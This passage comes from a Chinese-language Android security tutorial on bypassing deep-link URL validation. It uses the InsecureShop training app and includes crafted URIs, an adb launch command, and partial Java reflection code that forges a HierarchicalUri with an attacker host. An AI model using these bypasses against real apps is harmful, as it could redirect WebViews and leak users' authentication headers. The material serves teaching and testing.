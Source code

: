   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakmvWFohGBbC0RCMYPFcwRnicWlib8QgG0ZoibBWG355ksnqib4CTrZlnWuA/640?wx_fmt=png "")  
  
   
  
这里我们可以简单的发现代码对URL的相应部分进行了校验，这样我们就可以进行构造。  
```
"insecureshop://com.insecureshop/web?url=https://www.baidu.com"
"insecureshop://com.insecureshop/webview?url=http://www.baidu.com?-insecureshopapp.com"
```  
  
  
我们构造了两条URL，然后可以绕过检验，然后我们直接启动  
```
adb shell am start -W -a android.intent.action.VIEW -d URI的值
```  
  
  
效果如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakXoO7ySic2qw4RWh8OzwAS20j1Th56ibasF7nQKhteSSLmOa48wG1p5LA/640?wx_fmt=png "")  
  
   
  
这里我们可以实现任意的URI的访问和跳转  
####   
#### （2）hearachical Uri绕过  
  
  
假设我们加载的Uri不是通过Uri.parse，而是通过外部直接获取，我们可以构造hearachical 来绕过。  
  
   
  
我们可以使用 HierarchicalUri 和 Java Reflection API 进行攻击，同样我们分析一个样本的URL验证。  
```
Uri uri = getIntent().getData();
   boolean isValidUrl = "https".equals(uri.getScheme()) && uri.getUserInfo() == null && "legitimate.com".equals(uri.getHost());
   if (isValidUrl) {
       webView.loadUrl(uri.toString(), getAuthHeaders());
   }
```  
  
  
android.net.Uri在Android上被广泛使用，但实际上它是一个抽象类。android.net.Uri$HierarchicalUri是它的子类之一。Java 反射 API 使创建能够绕过此检查的 Uri 成为可能。  
  
   
  
通过反射传入⼀个scheme、authoritiy和path，构造⼀个形式为http://legitimate.com@attacker.com的HierachicalUri实例即可绕过  
```
public class MainActivity extends Activity {
        protected void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);

            Uri uri;
            try {
                //java反射获取类引用
                Class partClass = Class.forName("android.net.Uri$Part");
                Constructor partConstructor = partClass.getDeclaredConstructors()[0];
                partConstructor.setAccessible(true);

                Class pathPartClass = Class.forName("android.net.Uri$PathPart");
                Constructor pathPartConstructor = pathPartClass.getDeclaredConstructors()[0];
                pathPartConstructor.setAccessible(true);

                Class hierarchicalUriClass = Class.forName("android.net.Uri$HierarchicalUri");
                Constructor hierarchicalUriConstructor = hierarchicalUriClass.getDeclaredConstructors()[0];
                hierarchicalUriConstructor.setAccessible(true);

                //构造HierachicalUri实例
                Object authority = partConstructor.newInstance("legitimate.com", "legitimate.com");
```